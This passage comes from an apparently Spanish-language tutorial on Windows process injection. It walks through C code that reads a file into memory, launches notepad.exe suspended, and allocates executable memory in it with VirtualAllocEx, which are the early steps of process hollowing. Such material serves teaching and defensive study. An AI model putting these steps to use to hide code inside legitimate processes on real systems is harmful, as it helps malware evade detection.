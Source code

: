 4. **Leer el contenido del archivo en memoria**  
    La función `ReadFile`usa el handle del archivo para leer y copiar los bytes en el buffer asignado previamente. La variable `bytesLeidos` indicará cuántos bytes fueron efectivamente leídos.  
    Si `ReadFile` falla, imprime el error y termina la ejecución.
    

```c
DWORD bytesLeidos;
if (!ReadFile(hFile, buffer, sFile, &bytesLeidos, NULL)) {
    printf("[-] Error al almacenar los datos en el buffer: %lu\n", GetLastError());
    return 1;
}
```

### 2.2 Creación de un proceso en estado suspendido y reserva de memoria en su espacio

#### 2.2.1 **Estructuras necesarias**



```c
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };
```

Se inicializan las estructuras `STARTUPINFOA` y `PROCESS_INFORMATION` para crear un proceso:

- `STARTUPINFOA`: contiene información de cómo debe iniciarse la ventana del nuevo proceso (aunque aquí no se usa ninguna configuración especial).
    
- `PROCESS_INFORMATION`: recibirá información del proceso e hilo creados, como su manejador (`hProcess`) y su hilo principal (`hThread`).
    

#### 2.2.2 **Crear el proceso en modo suspendido**

```c
if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
    printf("[-] Error creando el proceso: %lu\n", GetLastError());
    return 1;
}
```

Se crea un nuevo proceso (`notepad.exe`) en estado **suspendido** con `CREATE_SUSPENDED`. 


#### 2.2.3 **Reservar memoria en el proceso remoto**

```c
LPVOID memReservada = VirtualAllocEx(pi.hProcess, NULL, nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!memReservada) {
    printf("[-] Error reservando memoria: %lu\n", GetLastError());
    return 1;
}
```
